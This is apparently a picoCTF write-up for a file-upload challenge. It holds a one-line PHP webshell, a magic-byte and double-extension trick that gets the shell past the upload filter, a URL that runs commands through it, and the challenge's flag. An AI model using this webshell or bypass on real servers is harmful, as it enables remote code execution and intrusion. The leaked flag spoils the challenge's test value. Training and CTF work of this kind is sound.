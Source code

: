 # Challenge URL
https://play.picoctf.org/practice/challenge/445
# Method of Solve
> There's an upload function on the landing page
> There's a robots.txt entry on the page that points us to instructions.txt and a directory: /uploads/
> When we read instructions.txt, we see that the app is looking for

* the .png extension in the submitted files
* magic bytes in the header

> We can prep our malicious file like so
```
echo '<?=`$_GET[0]`;?>' > webshell.php
printf '\x89\x50\x4E\x47\x0D\x0A\x1A\x0A' | cat - webshell.php > webshell.png.php
sz webshell.png.php
```
> Upload the file from your downloads directory, and it should be accepted
> Now we can access the webshell from the /uploads directory
> When looking at the webroot directory, we see a file with an unusual name
```
http://atlas.picoctf.net:52396/uploads/webshell.png.php?0=cat%20../GNTDOMBWGIZDE.txt
picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_3f706222}
```
